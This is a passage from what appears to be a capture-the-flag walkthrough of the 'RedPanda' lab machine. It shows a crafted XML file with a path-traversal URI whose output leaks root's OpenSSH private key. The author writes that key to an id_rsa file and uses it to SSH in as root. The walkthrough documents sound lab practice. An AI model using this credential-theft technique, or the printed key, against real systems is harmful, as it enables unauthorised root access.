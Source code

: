 Then we can cat the xml file to reveal the root SSH key!

```console
woodenk@redpanda:~$ cat rootme_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE replace>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/pic.jpg</uri>
    <hello>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</hello>
    <views>4</views>
  </image>
  <totalviews>4</totalviews>
</credits>
woodenk@redpanda:~$ 
```
Create an id_rsa file with the root ssh key.

```console
echo '-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----' > id_rsa
```

We are in as root!

```console
└──╼ [★]$ sudo ssh root@10.129.66.22 -i id_rsa
The authenticity of host '10.129.66.22 (10.129.66.22)' can't be established.
ECDSA key fingerprint is SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.66.22' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 19 Aug 2022 07:44:07 PM UTC

  System load:           0.0
  Usage of /:            80.9% of 4.30GB
  Memory usage:          48%
  Swap usage:            0%
  Processes:             224
  Users logged in:       1
  IPv4 address for eth0: 10.129.66.22
  IPv6 address for eth0: dead:beef::250:56ff:feb9:8e


0 updates can be applied immediately.


The list of available updates is more than a week old.
```